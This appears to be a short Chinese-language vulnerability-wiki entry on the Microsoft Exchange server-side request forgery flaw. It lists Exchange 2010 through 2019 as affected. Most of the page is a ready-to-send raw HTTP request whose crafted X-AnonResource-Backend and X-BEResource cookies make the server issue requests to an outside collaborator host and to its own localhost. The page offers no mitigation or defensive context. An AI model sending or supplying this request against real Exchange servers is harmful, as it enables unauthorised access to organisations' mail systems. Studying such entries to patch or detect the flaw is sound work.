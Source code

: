 <languages />

<translate>

漏洞簡介
--------

Exchange服務器端請求偽造（SSRF）漏洞，利用此漏洞的攻擊者能夠發送任意HTTP請求並通過Exchange Server進行身份驗證。

</translate>

<translate>

影響範圍
--------

</translate>

Microsoft Exchange Server: 2010

Microsoft Exchange Server: 2013

Microsoft Exchange Server: 2016

Microsoft Exchange Server: 2019

SSRF
----

    GET /owa/auth/x.js HTTP/1.1
    Host: 0.0.0.0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
    Cookie: X-AnonResource=true; X-AnonResource-Backend=burpcollaborator.net/ecp/default.flt?~3; X-BEResource=localhost/owa/auth/logon.aspx?~3;
    Accept-Language: en
    Connection: close

[檔案:Ssrf.jpg](檔案:Ssrf.jpg "wikilink")